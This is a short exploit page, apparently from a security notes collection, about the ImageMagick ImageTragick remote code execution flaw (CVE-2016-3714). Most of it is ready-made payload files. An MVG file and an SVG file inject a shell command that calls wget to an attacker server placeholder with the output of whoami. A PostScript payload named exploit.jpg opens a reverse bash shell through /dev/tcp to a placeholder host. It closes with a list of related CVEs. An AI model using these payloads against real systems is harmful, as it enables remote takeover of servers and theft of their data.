 ImageMagick (CVE-2016–3714)
===========================

There is a vulnerability in ImageMagick, that can lead to RCE. THe vulnerability
description and exploitation are described on the official website [ImageTragick](https://imagetragick.com/).

## Common exploits
`exploit.mvg`

```mvg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/x.jpg"|wget http://<server_ip>/$(whoami)'
pop graphic-context
```

`exploit.svg`
```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd";>
<svg width="640px" height="480px" version="1.1" xmlns="http://www.w3.org/2000/svg"; xmlns:xlink="http://www.w3.org/1999/xlink";>
	<image xlink:href="https://127.0.0.1/x.jpg&quot;|wget http://<server_ip>/$(whoami)" x="0" y="0" height="640px" width="480px"/>
</svg>
```

`exploit.jpg`
```
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%bash -c 'bash -i >& /dev/tcp/<host>/8080 0>&1') currentdevice putdeviceprops
```

## Others vulnerabilities

There is others known vulnerabilities:

- CVE-2016-3718 - SSRF
- CVE-2016-3715 - File deletion
- CVE-2016-3716 - File moving
- CVE-2016-3717 - Local file read
